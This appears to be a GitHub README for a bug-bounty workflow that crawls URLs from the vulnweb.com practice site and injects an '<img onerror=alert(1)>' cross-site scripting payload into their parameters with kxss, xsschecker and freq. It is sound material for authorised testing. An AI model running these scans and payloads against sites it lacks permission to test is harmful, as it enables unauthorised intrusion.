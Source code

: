 # XSS-OneLiner
Simple One Liner for finding XSS using automation

### Install tools
```bash
git clone https://github.com/rootbakar/bugbounty-toolkit
```
```bash
cd bugbounty-toolkit
```
```bash
chmod +x install_bounty_tools.sh
```
```bash
./install_bounty_tools.sh
```
```bash
go install -v github.com/Emoe/kxss@latest
```
```bash
go install github.com/rix4uni/xsschecker@latest
```

### Get All URLs
```bash
echo "testphp.vulnweb.com" | httpx -silent | katana -silent > katana.txt; echo "testphp.vulnweb.com" | httpx -silent | hakrawler -u > hakrawler.txt; echo "testphp.vulnweb.com" | waybackurls > waybackurls.txt; echo "testphp.vulnweb.com" | gau > gau.txt; cat katana.txt hakrawler.txt waybackurls.txt gau.txt | urldedupe -qs | httpx -silent | anew urls.txt
```

### XSS One Liner
**Command 1:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | kxss
```
![image](https://github.com/user-attachments/assets/7141d4af-a977-45dc-9cca-baafae48c606)

**Command 2:**
```bash
cat urls.txt | qsreplace '"><img src=x onerror=alert(1)>' | xsschecker -match '"><img src=x onerror=alert(1)>' -vuln
```
![image](https://github.com/user-attachments/assets/eec47e25-2ba6-4abf-be0f-727675830a53)


**Command 3:**
```bash
cat urls.txt  | qsreplace '"><img src=x onerror=alert(1)>' | freq | egrep -v 'Not'
```
![image](https://github.com/user-attachments/assets/017f6824-6b56-4d4c-a02d-f8aea95070c9)



